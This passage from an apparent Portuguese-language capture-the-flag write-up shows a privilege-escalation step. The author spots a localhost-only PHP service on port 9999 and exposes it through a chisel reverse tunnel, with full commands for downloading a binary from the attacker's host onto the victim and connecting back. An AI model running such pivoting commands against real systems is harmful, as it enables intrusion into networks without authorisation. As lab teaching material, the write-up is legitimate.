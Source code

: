O `Linpeas.sh` foi executado e foi mostrado uma linha interessante para o momento
`john         534  0.0  1.0 193800 20616 ?        Ss   07:41   0:00 /usr/bin/php -S 127.0.0.1:9999`

Indica-se que tem um serviço que está rodando na porta "9999", mas foi necessário criar um túnnel usando o `chisel`

#### Chisel

Instalação do binário (Máquina do Atacante)
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
mv chisel_1.8.1_linux_amd64 chisel
chmod +x chisel
```

Instalação do binário (Máquina da Vítima)
```
wget http://<SEU-IP>:8000/chisel -O /tmp/chisel
chmod +x /tmp/chisel
```

Agora foi necessário iniciar a execução do lado do atacante
`./chisel server --reverse -p 8000`

- `--reverse` -> Habilita túneis reversos
- `-p 8000` -> porta onde vai escutar conexões

Agora a execução na máquina da vítima
`/tmp/chisel client <SEU-IP>:8000 R:9999:127.0.0.1:9999`

- `R:` -> Túnel reverso
- `9999:127.0.0.1:9999` -> Basicamente: “exponha a porta **9999 do host remoto (Atacante)** como se fosse esta 127.0.0.1:9999 do alvo”

**Túnel feito com sucesso!**

#### Acessando o serviço da porta 9999

![](attachment/fe818fe2d489c01295ad29d2d358af03.png)
